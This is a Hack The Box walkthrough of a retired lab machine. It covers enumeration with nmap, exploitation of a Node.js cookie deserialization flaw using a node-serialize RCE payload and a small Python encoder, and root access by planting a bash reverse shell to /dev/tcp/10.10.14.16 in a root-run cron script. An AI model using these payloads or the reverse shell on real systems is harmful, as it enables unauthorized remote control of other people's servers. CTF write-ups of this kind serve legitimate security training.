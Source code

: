 # Box 



![image-20210326161654516](img/image-20210326161654516.png)

https://www.hackthebox.eu/home/machines/profile/130

# Profile

 <img src="http://www.hackthebox.eu/badge/image/296177" alt="Hack The Box"> 

https://www.hackthebox.eu/home/users/profile/296177

# Table of contents

* [Enumeration](#enumeration)
* [Exploitation](#exploitation)
* [Post-Exploitation](#post-exploitation)
  + [User](#user)
  + [Root](#root)

# Contents 

## Enumeration

Let's start with nmap :

```bash
nmap -sV -sC -Pn --top-ports 1000 -oN scan_10.10.10.85 10.10.10.85
```

![image-20210326161759985](img/image-20210326161759985.png)

Let's take a look on the website : 

![image-20210326174140931](img/image-20210326174140931.png)

Nothing interesting. I started burp to see what we can do.

![image-20210326174220467](img/image-20210326174220467.png)

I searched for "X-Powered-By: Express" and found out that it is running nodeJS. 



When looking for exploits, I found some link about deserialization with the cookie .

https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf



The cookie is encoded with base64. We can see the payload : 

![image-20210326174454221](img/image-20210326174454221.png)

Let's modify the number to 4.

![image-20210326174519148](img/image-20210326174519148.png)

It seems that we are injecting something. Let's try to put a string and not a number. 

![image-20210326174602374](img/image-20210326174602374.png)

We triggered an error. It seems that it is using eval. Let's dig a bit more on the internet for some exploits. 

## Exploitation

I found this link very useful : 

https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

If you follow the same steps you can also use the `nodejsshell.py` to generate our own payload. 

![image-20210326174859222](img/image-20210326174859222.png)



We need to add `_$$ND_FUNC$$_function (){our_payload()}`to create a RCE. That's what I did and this what it looks like : 

```
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"_$$ND_FUNC$$_function (){ #Insert what nodejsshell.py gave you }()"}
```

 I've done my own exploit to not be annoyed by the encoding : 

```python
from base64 import b64encode
payload = "_$$ND_FUNC$$_function (){{ {} }}()"

port_1234=#Insert what nodejsshell.py gave you
cookie='{{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"{}"}}'

full_cookie = cookie.format(payload.format(port_1234))
print(full_cookie)
print(b64encode(full_cookie))

```

We have a shell :

![image-20210326182855179](img/image-20210326182855179.png)

## Post-Exploitation

### User

We are already the user.

![image-20210326183004265](img/image-20210326183004265.png)

### Root

I found in a syslog a very interesting information : 

![image-20210326185818748](img/image-20210326185818748.png)

Root is executing a python script owned by sun every 5min.



Just modify your script.py and add :

```bash
os.system("bash -c 'exec bash -i &>/dev/tcp/10.10.14.16/1238 <&1'") 
```

Now you have to wait for 5 min....

![image-20210326185929372](img/image-20210326185929372.png)

Rooted.